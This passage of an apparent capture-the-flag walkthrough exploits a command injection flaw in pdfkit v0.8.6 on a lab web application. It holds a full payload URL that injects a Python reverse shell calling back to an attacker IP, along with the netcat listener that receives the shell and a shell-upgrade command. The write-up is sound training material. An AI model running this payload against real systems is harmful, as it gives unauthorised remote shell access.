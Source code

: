 Finally, we can host this payload with a local Python web server:
```
python -m http.server 8000
```

On the target, we can provide the following URL:
```
http://10.10.14.39:8000/payload.sh
```

The local web server receives the connection, but no reverse shell is established:
```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.189 - - [11/May/2023 13:28:38] "GET /payload.sh HTTP/1.1" 200 -
```

The web application generates a PDF containing the content of the file downloaded. If we check inside of the PDF, we can get more information about the pdfkit software used:
```
 cat yncynx8ds9if3xihyzzej7dfvjsojktg.pdf
 
 <rdf:Description rdf:about=''
  xmlns:dc='http://purl.org/dc/elements/1.1/'>
  <dc:creator>
   <rdf:Seq>
    <rdf:li>Generated by pdfkit v0.8.6</rdf:li>
   </rdf:Seq>
  </dc:creator>
 </rdf:Description>
</rdf:RDF>
</x:xmpmeta>
```

The version used is affected by a command injection vulnerability:
https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795

The original attack vector can now be replaced by launching a reverse shell directly from the target to the attacker machine. We can generate a payload to exploit the flaw in the web application:
```
http://example.com/?name=#{'%20`export RHOST="10.10.14.39";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`'}
```

The connection is set on the receiver:
```
nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.39] from (UNKNOWN) [10.10.11.189] 39274
$ whoami
ruby
```

Upgrading the basic shell to be interactive:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

